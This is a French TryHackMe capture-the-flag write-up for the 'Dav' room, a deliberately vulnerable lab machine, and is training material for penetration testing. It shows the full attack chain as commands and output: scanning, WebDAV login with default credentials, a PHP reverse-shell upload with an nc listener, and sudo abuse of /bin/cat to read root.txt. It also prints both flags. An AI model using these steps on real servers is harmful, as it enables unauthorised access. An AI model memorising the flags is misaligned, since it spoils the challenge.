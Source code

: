 # Dav #

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo sh -c "echo '10.10.220.213 dav.thm' >> /etc/hosts"
```

On met un nom de domaine à notre ip pour simplifier les démarches.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ sudo nmap -A dav.thm
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-18 14:10 CEST
Nmap scan report for dav.thm (10.10.220.213)
Host is up (0.044s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=7/18%OT=80%CT=1%CU=33834%PV=Y%DS=2%DC=T%G=Y%TM=60F41A3
OS:F%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10C%TI=Z%CI=I%II=I%TS=8)SEQ
OS:(SP=106%GCD=1%ISR=10B%TI=Z%CI=I%TS=8)OPS(O1=M506ST11NW6%O2=M506ST11NW6%O
OS:3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST11NW6%O6=M506ST11)WIN(W1=68DF%W2=
OS:68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M506NNSN
OS:W6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops

TRACEROUTE (using port 53/tcp)
HOP RTT      ADDRESS
1   33.71 ms 10.9.0.1
2   34.09 ms dav.thm (10.10.220.213)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.13 seconds
```

On remarque ici plusieurs chose :  
-Le service http sur le port 80 est disponible.  
-Que la page principale est la page par défaut d'apache.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ gobuster dir -u http://dav.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://dav.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/07/18 14:17:23 Starting gobuster in directory enumeration mode
===============================================================
/webdav               (Status: 401) [Size: 454]
/server-status        (Status: 403) [Size: 295]
                                               
===============================================================
2021/07/18 14:31:33 Finished
===============================================================
```

On repère un lien, regardons-le.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ w3m http://dav.thm/webdav/
Password for webdav: 
```

Pour le nouveau lien on nous demande des identifiants, ont ne les a pas.
En faisant une recherche sur internet on trouve les identifiants.
Non d'utilisateur : wampp
Mot de passe      : xampp

```bash
Authentication required for webdav on server `dav.thm':
Username: wampp
Password: 
dav:/webdav/> 
Available commands: 
 ls         cd         pwd        put        get        mget       mput       
 edit       less       mkcol      cat        delete     rmcol      copy       
 move       lock       unlock     discover   steal      showlocks  version    
 checkin    checkout   uncheckout history    label      propnames  chexec     
 propget    propdel    propset    search     set        open       close      
 echo       quit       unset      lcd        lls        lpwd       logout     
 help       describe   about      
Aliases: rm=delete, mkdir=mkcol, mv=move, cp=copy, more=less, quit=exit=bye
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        passwd.dav                            44  août 26  2019
dav:/webdav/> get passwd.dav
Downloading `/webdav/passwd.dav' to passwd.dav:
Progress: [=============================>] 100,0% of 44 bytes succeeded.
dav:/webdav/> exit
Connection to `dav.thm' closed.
tim@kali:~/Bureau/tryhackme/write-up$ cat passwd.dav 
wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91
```

Avec cadaver on récupère un fichier.  
Dans le fichier il y un hash.  
J'arrive pas à casser le hash avec john ou hashcat.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
--2021-07-18 15:39:43--  https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
Résolution de raw.githubusercontent.com (raw.githubusercontent.com)… 185.199.110.133, 185.199.109.133, 185.199.111.133, ...
Connexion à raw.githubusercontent.com (raw.githubusercontent.com)|185.199.110.133|:443… connecté.
requête HTTP transmise, en attente de la réponse… 200 OK
Taille : 5491 (5,4K) [text/plain]
Sauvegarde en : « php-reverse-shell.php »

php-reverse-shell.php                                       100%[=========================================================================================================================================>]   5,36K  --.-KB/s    ds 0s      

2021-07-18 15:39:43 (23,6 MB/s) — « php-reverse-shell.php » sauvegardé [5491/5491]
tim@kali:~/Bureau/tryhackme/write-up$ sed -i "s/127.0.0.1/10.9.228.66/g" php-reverse-shell.php 
tim@kali:~/Bureau/tryhackme/write-up$ cadaver http://dav.thm/webdav/
Authentication required for webdav on server `dav.thm':
Username: wampp
Password: 
dav:/webdav/> put php-reverse-shell.php
Uploading php-reverse-shell.php to `/webdav/php-reverse-shell.php':
Progress: [=============================>] 100,0% of 5493 bytes succeeded.
```

On télécharge un reverse-shell en php.  
On modifie l'ip par la notre.  
On se connect avec cadaver pour transferer le reverse-shell.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
```

On écoute le sur le port 1234. 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ w3n http://dav.thm/webdav/php-reverse-shell.php
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1234
listening on [any] 1234 ...
$ whoami
www-data
$ ls /home/
merlin
wampp
$ cat /home/merlin/user.txt
449b40fe93f78a938523b7e4dcd66d2a
```

A partir du shell, dans le répertoire on trouve deux utilisateurs wampp et merlin. 
Quand on regarde le fichier user.txt dans merlin on a notre flag.  

La réponse est : 449b40fe93f78a938523b7e4dcd66d2a 

```bash
$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat

$ sudo /bin/cat /root/root.txt
101101ddc16b0cdf65ba0b8a7af7afa5
```

En regardant dans la configuration sudo, on remarque que /bin/cat peut être exécuter sans mot de passe.  
Avec cat, on afficher le contenu du fichier root.txt.   

La réponse est : 101101ddc16b0cdf65ba0b8a7af7afa5  